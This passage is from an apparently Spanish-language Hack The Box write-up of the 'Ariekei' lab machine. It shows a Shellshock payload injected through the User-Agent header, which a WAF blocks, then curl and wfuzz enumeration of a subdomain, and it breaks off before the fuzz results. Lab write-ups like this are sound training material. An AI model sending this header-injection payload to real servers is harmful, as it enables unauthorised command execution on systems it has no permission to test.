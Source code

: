 Tramito una petición por GET a ```/stats```

<img src="/writeups/assets/img/Ariekei-htb/5.png" alt="">

La versión de ```bash``` es vulnerable. En este [artículo](https://blog.cloudflare.com/inside-shellshock/) de Cloudflare está todo detallado. Modifico el User-Agent, pero al intentar ejecutar comandos me salta el WAF

```null
User-Agent: () { :; }; /usr/bin/id
```

De momento no puedo hacer nada, así que paso a enumerar el subdominio ```calvin.ariekei.htb```. No carga nada de primeras

```null
curl -s -X GET https://calvin.ariekei.htb/ -k | html2text
****** Not Found ******
The requested URL was not found on the server. If you entered the URL manually
please check your spelling and try again.
```

Así que fuzzeo rutas

```null
 wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt https://calvin.ariekei.htb/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://calvin.ariekei.htb/FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================
```